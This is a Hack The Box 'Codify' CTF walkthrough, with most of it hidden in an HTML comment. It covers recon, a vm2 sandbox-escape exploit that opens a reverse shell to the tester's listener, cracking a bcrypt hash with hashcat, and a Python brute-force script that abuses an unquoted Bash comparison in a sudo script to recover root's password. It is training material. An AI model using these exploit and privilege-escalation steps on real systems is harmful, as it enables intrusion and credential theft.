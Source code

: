 ```yaml
---
title: HTB - Codify
date: 2024-01-09
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, webserver, mysql, mysqldump, vm2, node-js, hash, hashcat, bcrypt]
img_path: /assets/htb/fullpwn/codify/
published: true
---
```


![room_banner](room_banner.png)

## Overview

|:-:|:-:|
|Machine|[Codify](https://app.hackthebox.com/machines/574)|
|Rank|Easy|
|Focus|-|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Info gathering

```bash
$ sudo nmap -sS -A -Pn --min-rate 10000 -p- codify

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

Nmap info:
- We have an SSH server available but we will need some form of credentials to use that.
- We have a webserver redirecting to `codify.htb`, so we will have to add that to our `/etc/hosts` file.
- We have port `3000` open which servers Node.js Express. We will need to find out about that.

Let's first add the domain to our `hosts` file:

```bash
$ sudo nano /etc/hosts
$ cat /etc/hosts

<SNIP>
10.10.11.239    codify codify.htb
<SNIP>
```

The website looks likes a sandbox environment for testing Node.js code. It also includes a `Limitations` hyperlink:

![](codify_home.png)

![](limitations_page.png){: .normal width="65%"}

Searching about [Node.js Express](https://expressjs.com/) we did not find anything particularly interesting about it: _it is a minimal and flexible Node.js web application framework that provides a robust set of features for web and mobile applications_. 

## Initial foothold

Enumerating the website, we notice that there is a mention of a `vm2` library in the `About us` page:

![](aboutUs_page.png)

After searching some more details about the `vm2` library, we can find out that there is an [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823) which could not be fixed and the library was [deprecated](https://www.npmjs.com/package/vm2) because of it!

![](vm2_deprecated.png)

There is a public [PoC](https://github.com/rvizx/VM2-Exploit) which includes a video of how to use the exploit. After going through the process, we are able to catch our shell:

```bash
$ python3 exploit.py "curl 'http://codify.htb/run' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://codify.htb/editor' -H 'Content-Type: application/json' -H 'Origin: http://codify.htb' -H 'Connection: keep-alive' --data-raw '{"code":"cmVxdWlyZSgidm0yL3BhY2thZ2UuanNvbiIpLnZlcnNpb24="}'" --ip=10.10.14.9 --port=1337 --base64
```

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.239] 38114
bash: cannot set terminal process group (1258): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

## Privilege escalation

After enumerating the webserver files, we can find this:

```bash
svc@codify:/var/www/contact$ cat tickets.db
cat tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�� tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

We can see that there is the hashed password of `joshua`: 

`$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`.

The first part of the hash indicates the hash type, so if we search for "*$2a\$ hash*" on Google we get [this](https://bitcoinwiki.org/wiki/bcrypt#:~:text=The%20prefix%20%E2%80%9C%242a%24%E2%80%9D,hash%20in%20modular%20crypt%20format.):

*The prefix “$2a\$” or “$2b\$” (or “$2y\$”) in a hash string in a shadow password file indicates that hash string is a **bcrypt** hash in modular crypt format.*

We can now copy this hash into a file and crack it offline:

> We can quickly find `hashcat`'s `bcrypt` mode [here](https://hashcat.net/wiki/doku.php?id=example_hashes).

```bash
$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1

<SNIP>
```

Now we have managed to crack it, we can log into SSH as `joshua:spongebob1`:

```bash
$ ssh joshua@codify
<SNIP>
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
8f5d17728f3da50c437668e019841c89
```

Let's check if we can run anything with elevated privileges:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Although we can run `/opt/scripts/mysql-backup.sh` as root, when we do, it asks us for the `root`'s password which we don't have. We can check which services are listening internally and try to enumerate those:

```bash
joshua@codify:~$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
<SNIP>
```

There is a `MySQL` server listening on port `3306`. Let's try to connect to it:

```bash
joshua@codify:~$ mysql -u joshua -p"spongebob1" -h 127.0.0.1
<SNIP>
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.01 sec)

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
<SNIP>
| user                      |
+---------------------------+
31 rows in set (0.00 sec)

mysql> SHOW COLUMNS FROM user;
+------------------------+---------------------+------+-----+----------+-------+
| Field                  | Type                | Null | Key | Default  | Extra |
+------------------------+---------------------+------+-----+----------+-------+
| Host                   | char(255)           | NO   |     |          |       |
| User                   | char(128)           | NO   |     |          |       |
| Password               | longtext            | YES  |     | NULL     |       |
<SNIP>
+------------------------+---------------------+------+-----+----------+-------+
47 rows in set (0.00 sec)

mysql> SELECT User, Password FROM user WHERE User='root';
+------+-------------------------------------------+
| User | Password                                  |
+------+-------------------------------------------+
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| root | *4ECCEBD05161B6782081E970D9D2C72138197218 |
+------+-------------------------------------------+
3 rows in set (0.00 sec)
```

We found the `root`'s hash. We can check its type using `hash-identifier`:

```bash
$ hash-identifier
 HASH: 4ECCEBD05161B6782081E970D9D2C72138197218

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Sadly, after trying everything in our toolset, it seems that we can't crack the hash! Let's go back to the `mysql-backup.sh` script. We can try replicating what the script is doing by executing each command ourselves:

```bash
joshua@codify:~$ mysql -u joshua -p'spongebob1' -h 127.0.0.1 -e "SHOW DATABASES;"
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mydb               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

joshua@codify:~$ mysql -u joshua -p'spongebob1' -h 127.0.0.1 -e "SHOW DATABASES;" | grep -Ev "(Database|information_schema|performance_schema)"
mysql: [Warning] Using a password on the command line interface can be insecure.
mydb
mysql
sys
```

So what this script does:
1. Select the `mydb`, `mysql`, and `sys` databases.
2. Exporting them one by one (backing them up) using `mysqldump` and stores them within `/var/backups/mysql` with the name `<db_name>.sql.gz`. 
3. Compress each file using `gzip`.

For executing this process, the `root` user's credentials are used.

> [The complete `mysqldump` guide with examples](https://simplebackups.com/blog/the-complete-mysqldump-guide-with-examples/#what-is-mysqldump).

After some time re-reading the script several times, we realize that there is an issue within the script itself. In particular, within the below lines:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
```

This is an issue known as **unquoted variables**: how double quoted and unquoted variables are interpreted differently in Bash.

> Info about [Quoting Variables](https://tldp.org/LDP/abs/html/quotingvar.html).

Let's see an example, taken from the link above. Below, we create the variable `list` and because we then use it unquoted, instead of echoing the whole list, echoes its elements as separate arguments:

```bash
$ list="one two three"
$ for a in $list # unquoted variable, this is the same as writing "one" "two" "three"
> do
> echo "$a"
> done
one
two
three
```

If we now enclose the `list` variable in double quotes, the command will interpret it as a single argument, echoing the whole list:

```bash
$ for a in "$list" # double-quoted variable
> do
> echo "$a"
> done
one two three
```

> [Bash \| Why should you put shell variables always between quotation marks ? (+ real world example)](https://medium.com/@stefan.paladuta17/bash-why-should-you-put-shell-variables-always-between-quotation-marks-real-world-example-ac794dd53a84).

The unquoted variable issue is the base of the vulnerability that lies within the `[[ $DB_PASS == $USER_PASS ]]` lines. As mentioned [here](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29): 

_"When the right-hand side of an `=` operator inside [`[[`](https://mywiki.wooledge.org/BashFAQ/031) is not quoted, bash does [**pattern matching**](https://mywiki.wooledge.org/glob) against it, instead of treating it as a string"._

As a result of that, we can create a simple [brute-forcing script](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/htb/fullpwn/codify/brute_force.py) leveraging the ability to "*pattern-match*" each character and obtain `root`'s password:

```python
import subprocess
import string

# create a list with all alphanumeric characters
charList = list(string.ascii_letters + string.digits)
# set initial password as an empty string
password = ""
passwordMissing = True

while passwordMissing:
    # try every character in the list
    for char in charList:
        # define the command to be executed
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        # 
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        # if this message (defined in the `mysql-back.sh` script) is within the output
        if "Password confirmed!" in output:
            # append character in the password variable
            password += char
            # print the current state of the password
            print(password)
            # don't iterate through the rest of the letters and go to next position instead
            break
    else:
        passwordMissing = False
```

By running the script, `root`'s password will be revealed:

```bash
joshua@codify:~$ python3 brute_force.py
[sudo] password for joshua:
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

We can now switch to `root` and get the flag:

```bash
joshua@codify:~$ su root
Password:
root@codify:/home/joshua# cat /root/root.txt
1f62fde8d681b1567d8d4e677f7b0c3c
``` -->

![](machine_pwned.png){: width="65%" .normal}